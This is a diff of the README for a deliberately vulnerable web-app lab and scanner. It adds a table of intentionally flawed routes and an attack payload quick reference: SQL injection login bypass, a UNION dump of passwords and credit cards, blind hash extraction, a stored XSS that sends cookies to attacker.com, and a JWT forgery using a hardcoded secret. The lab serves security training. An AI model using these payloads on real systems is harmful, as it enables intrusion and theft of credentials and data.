

Before and after one commit to divy1212ctrl/vulenerability-testing, a Markdown page: README.md, the part around one of its changes. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -127,40 +249,67 @@ python main.py --target http://localhost:5000 --format html
 
 ---
 
-## 📊 Dashboard — Features
+## API Server Endpoints
 
-- 🗺️ **Vulnerability Radar** — Category-wise finding distribution
-- 🥧 **Severity Pie** — Critical / High / Medium / Low breakdown
-- 📊 **CVSS Bar Chart** — Top vulnerabilities by score
-- 🎯 **Risk Meter** — Composite risk score (0–100)
-- 📋 **Findings Table** — Filter, sort, expand payload + evidence
-- 💻 **Scan Terminal** — Live log output during scan
-- ⬇️ **Export JSON** — Download raw results
+| Endpoint | Method | Description |
+|----------|--------|-------------|
+| `/api/health` | GET | Status, timestamp, results availability |
+| `/api/results` | GET | Latest findings + severity + by-type summary |
+| `/api/results/history` | GET | All past scan JSON files |
+| `/api/scan` | POST | Trigger new scan (NDJSON stream) |
+| `/api/findings/export` | GET | Download results.json |
 
 ---
 
-## 🔐 Crypto Demo — Modules
+## VulnApp Endpoints Reference
 
-| Demo              | What it shows                                      |
-|-------------------|----------------------------------------------------|
-| MD5 vs bcrypt     | Why MD5 is broken for password storage             |
-| Caesar cipher     | Classic cipher + brute-force break                 |
-| JWT tampering     | Forging admin token with weak secret               |
-| Hash cracker      | Dictionary attack on MD5 hashes                    |
-| Weak cipher detect| Identify rot13/caesar/base64 obfuscation           |
+| Route | Method | Vulnerability |
+|-------|--------|--------------|
+| `/api/login` | POST | SQLi Classic + Boolean Blind |
+| `/api/products/search?q=` | GET | SQLi UNION Based |
+| `/api/user/exists?username=` | GET | SQLi Boolean Blind |
+| `/api/orders/<id>` | GET | IDOR |
+| `/api/xss/reflect?name=` | GET | Reflected XSS |
+| `/api/xss/comment` | POST | Stored XSS submit |
+| `/api/xss/comments` | GET | Stored XSS view |
+| `/api/jwt/forge?role=admin` | GET | Get forged admin JWT |
+| `/api/jwt/admin` | GET | Accepts forged JWT |
+| `/api/csrf/transfer` | POST | CSRF no token |
+| `/api/secure/login` | POST | Secure comparison (parameterized) |
+| `/api/health` | GET | Docker healthcheck |
 
 ---
 
-## 🐳 Docker Services
+## Attack Payloads Quick Reference
 
+**Login Bypass**
 ```
-vulnapp          → Flask vulnerable app     → :5000
-vulnscan_api     → Python scanner + API     → :8000
-vulnscan_dashboard → React (Nginx)          → :3000
-vulnscan_crypto  → Crypto demo server       → :8080
+POST /api/login
+{"username": "admin'--", "password": "anything"}
 ```
 
-All services share `vulnscan_net` bridge network so they can talk to each other by container name (e.g., `http://vulnapp:5000`).
+**UNION Dump — dumps users table with passwords + credit cards**
+```
+GET /api/products/search?q=' UNION SELECT id,username,password,email,credit_card FROM users--
+```
+
+**Boolean Blind — extract hash one char at a time**
+```
+GET /api/user/exists?username=alice' AND SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)='2'--
+```
+
+**Stored XSS**
+```json
+POST /api/xss/comment
+{"user": "x", "content": "<script>document.location='http://attacker.com/?c='+document.cookie</script>"}
+```
+
+**JWT Forge**
+```bash
+GET /api/jwt/forge?role=admin          # get forged token
+GET /api/jwt/admin  -H "Authorization: Bearer <token>"   # server accepts it
+# secret is 'weakjwtsecret' — hardcoded in docker-compose.yml
+```
 
 ---
 
````
Also changed, not shown: other parts of README.md (+222 -113 lines).
